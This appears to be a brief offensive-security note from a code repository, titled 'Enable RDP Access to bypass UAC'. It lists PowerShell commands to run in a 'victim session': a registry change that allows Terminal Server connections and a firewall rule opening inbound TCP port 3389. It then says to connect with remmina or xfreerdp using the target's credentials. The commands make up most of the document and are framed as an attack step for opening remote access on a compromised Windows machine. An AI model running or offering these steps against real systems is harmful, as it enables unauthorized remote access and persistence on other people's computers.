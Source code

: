 # Enable RDP Access to bypass UAC

## Commands:

### Victim session

#### 1) Disable connection denial

    Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -Name "fDenyTSConnections" -Value 0

#### 2) Enable Remote Desktop Connection

    New-NetFirewallRule -DisplayName "Remote Desktop" -Direction Inbound -Action Allow -Protocol TCP -LocalPort 3389

### Then connect via RDP using any RDP client like remmina or xfreerdp to target using their credentials
